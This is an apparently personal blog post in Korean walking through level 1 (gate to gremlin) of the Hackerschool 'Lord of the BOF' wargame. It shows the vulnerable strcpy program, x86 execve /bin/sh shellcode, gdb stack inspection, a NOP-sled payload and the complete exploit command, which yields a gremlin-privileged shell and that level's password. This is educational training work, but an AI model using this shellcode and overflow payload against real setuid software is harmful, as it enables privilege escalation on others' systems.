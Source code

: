 ```yaml
---
layout: post
title: "[Wargame]  해커스쿨 BoF LEVEL1 (gate -> gremlin) :  simple bof"
date: 2015-10-18 21:00
categories:  wargame
tags: [bof]
---
```


[해커스쿨 왕기초편](http://www.hackerschool.org/Sub_Html/HS_University/bof_1.html)을 읽고 나서 제대로 BoF 훈련을 해보기 위하여 [BoF 원정대 Wargame](http://www.hackerschool.org/HS_Boards/zboard.php?id=HS_Notice&no=1170881885)을 시작하였다.
Stage 하나하나 직접 해보자. :)

<!-- more -->

## BoF LEVEL1 (gate -> gremlin) :  simple bof

256bytes 사이즈의 큰 buffer 에 BoF 완성하면 되는 문제.

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - gremlin
        - simple BOF
*/

int main(int argc, char *argv[])
{
    char buffer[256];
    if(argc < 2){
        printf("argv error\n");
        exit(0);
    }
    strcpy(buffer, argv[1]);
    printf("%s\n", buffer);
}
```

## shellcoe 확보

Scratch 부터  shellcode 작성할 수 있으면 좋겠지만.. 우선은 Linux x86 에서 shell 띄우는 shellcode 를 찾아보았다.

[Writing shellcode for Linux and *BSD](http://www.kernel-panic.it/security/shellcode/shellcode5.html)

### c-code

`execve()` 이용하여 `/bin/sh` 실행하는 아주 간단한 코드. 

```c
#include <unistd.h>

int main() {
        char *args[2];
        args[0] = "/bin/sh";
        args[1] = NULL;
        execve(args[0], args, NULL);
}
```

BoF 원정대의 VM 환경에서 shell 띄우기 동작함.

```bash
> gcc -g -o get_shell get_shell.c 
> ./get_shell 
bash$ id
uid=500(gate) gid=500(gate) groups=500(gate)
```

### shellcode : assembly 변환

위의 c 코드를  compile 된 obj 를 가지고 shellcode 로서 동작시키 위하여 null byte 를 없애는 등의 작업을 해야하는데... 우선 초보이므로 최종 결과물을 사용해보자.  대신 좀더 익숙해지면 반드시 직접 손으로 shellcode 짜야한다. 

### 최종 shellcode

```c
char shellcode[] = "\xeb\x18\x5e\x31\xc0\x88\x46\x07\x89\x76\x08\x89\x46"
                   "\x0c\xb0\x0b\x8d\x1e\x8d\x4e\x08\x8d\x56\x0c\xcd\x80"
                   "\xe8\xe3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68";
int main()
{
        int *ret;
        ret = (int *)&ret + 2;
        (*ret) = (int)shellcode;
}
```

## Dynamic debugging

BoF 를 하기 위하여 중요한 정보는 다음과 같다.

- Buffer size
- Return address

우리는 Wargame 으로서 소스를 가지고 있어서 buffer 의 사이즈가 256bytes 라는 것은 운좋게도 알고 있는 상황이다. 

### Return address 확인

하지만 코드가 수행되고 있는 stack address 는 알지 못한다. 이 값을 알아야 BoF 에서 가장 중요한 stack 에 저장된 saved return address 대신에 exploit code 의 어드레스로 바꾸어 주어야 한다. 

문제의 실행파일인 `gremlin` 파일의 권한이 `gremlin` 이라서  1단계 `gate` 는 권한이 부족하여 gdb debugging 이 제대로 되지 않는 것 같다.

```bash
-rwsr-sr-x    1 gremlin  gremlin     11987 Feb 26  2010 gremlin
```

대신 직접 compile 하여 gdb debugging 을 하여 보자.

```bash
> gcc -g -o gremlin2 gremlin.c
> ls -al
-rwsr-sr-x    1 gremlin  gremlin     11987 Feb 26  2010 gremlin
-rw-rw-r--    1 gate     gate          272 Mar 29  2010 gremlin.c
-rwxrwxr-x    1 gate     gate        12583 Oct 25 16:04 gremlin2
```

	
```bash
(gdb) disas
Dump of assembler code for function main:
0x8048430 <main>:       push   %ebp
0x8048431 <main+1>:     mov    %esp,%ebp
0x8048433 <main+3>:     sub    $0x100,%esp
0x8048439 <main+9>:     cmpl   $0x1,0x8(%ebp)
0x804843d <main+13>:    jg     0x8048456 <main+38>
0x804843f <main+15>:    push   $0x80484e0
0x8048444 <main+20>:    call   0x8048350 <printf>
0x8048449 <main+25>:    add    $0x4,%esp
0x804844c <main+28>:    push   $0x0
0x804844e <main+30>:    call   0x8048360 <exit>
0x8048453 <main+35>:    add    $0x4,%esp
0x8048456 <main+38>:    mov    0xc(%ebp),%eax
0x8048459 <main+41>:    add    $0x4,%eax
0x804845c <main+44>:    mov    (%eax),%edx
0x804845e <main+46>:    push   %edx
0x804845f <main+47>:    lea    0xffffff00(%ebp),%eax
0x8048465 <main+53>:    push   %eax
0x8048466 <main+54>:    call   0x8048370 <strcpy>
0x804846b <main+59>:    add    $0x8,%esp
0x804846e <main+62>:    lea    0xffffff00(%ebp),%eax
0x8048474 <main+68>:    push   %eax
0x8048475 <main+69>:    push   $0x80484ec
0x804847a <main+74>:    call   0x8048350 <printf>
0x804847f <main+79>:    add    $0x8,%esp
0x8048482 <main+82>:    leave  
0x8048483 <main+83>:    ret   
```

```bash
(gdb) x/100x $esp
0xbffff920:     0xbffff928      0xbffffb86      0x90909090      0x90909090
0xbffff930:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff940:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff950:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff960:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff970:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff980:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff990:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff9a0:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff9b0:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff9c0:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff9d0:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff9e0:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff9f0:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffffa00:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffffa10:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffffa20:     0x90909090      0x90909090      0xbffffa00      0x400309cb
0xbffffa30:     0x00000002      0xbffffa74      0xbffffa80      0x40013868
0xbffffa40:     0x00000002      0x08048380      0x00000000      0x080483a1
0xbffffa50:     0x08048430      0x00000002      0xbffffa74      0x080482e0
0xbffffa60:     0x080484bc      0x4000ae60      0xbffffa6c      0x40013e90
0xbffffa70:     0x00000002      0xbffffb72      0xbffffb86      0x00000000
0xbffffa80:     0xbffffc87      0xbffffca9      0xbffffcb3      0xbffffcc1
0xbffffa90:     0xbffffce0      0xbffffced      0xbffffd05      0xbffffd1f
0xbffffaa0:     0xbffffd3e      0xbffffd49      0xbffffd57      0xbffffd97
```

버퍼 사이즈가 충분히 길기 때문에 shellcode 38bytes 앞에 [NOP] 를 넣고, 가장 중요한 [LR] 넣어서 exploit 구성함.

```bash
[Buffer 256 bytes] + [SFP 4bytes]      + [LR 4 bytes]
[NOP 222 bytes] + [shell code 38bytes] + [LR=0xbffff980]
```

## BoF Exploit

```bash
./gremlin `python -c 'print "\x90"*222 + "\xeb\x18\x5e\x31\xc0\x88\x46\x07\x89\x76\x08\x89\x46\x0c\xb0\x0b\x8d\x1e\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68" + "\x80\xf9\xff\xbf"'`
```

```bash
[gate@localhost gate]$ ./gremlin `python -c 'print "\x90"*222 + "\xeb\x18\x5e\x31\xc0\x88\x46\x07\x89\x76\x08\x89\x46\x0c\xb0\x0b\x8d\x1e\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68" + "\x80\xf9\xff\xbf"'`
^1F嵬bin/sh
                bash$ id
uid=500(gate) gid=500(gate) euid=501(gremlin) egid=501(gremlin) groups=500(gate)

bash$ my-pass
euid = 501
hello bof world
```


